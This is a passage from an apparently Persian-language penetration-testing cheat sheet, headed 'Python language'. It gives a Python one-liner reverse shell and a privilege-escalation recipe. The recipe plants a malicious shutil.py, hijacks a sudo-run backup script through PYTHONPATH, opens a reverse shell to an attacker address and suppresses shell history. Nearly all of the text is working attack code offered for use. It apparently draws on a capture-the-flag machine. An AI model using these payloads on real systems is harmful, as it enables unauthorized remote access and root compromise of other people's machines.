 ### زبان Python

```text
python -c 'import socket, subprocess, os; s=socket. socket (socket.AF_INET,
socket.SOCK_STREAM); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
یا 

```text
check sudoer script content like:

#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
You have new mail in /var/mail/waldo

and create file for got root as shutil.py contains:

import os
import pty
import socket

lhost = "10.10.10.10"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
   def close(*args):
       return
   def __init__(self, *args):
       return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()

and run sudoer script with 

sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6
```
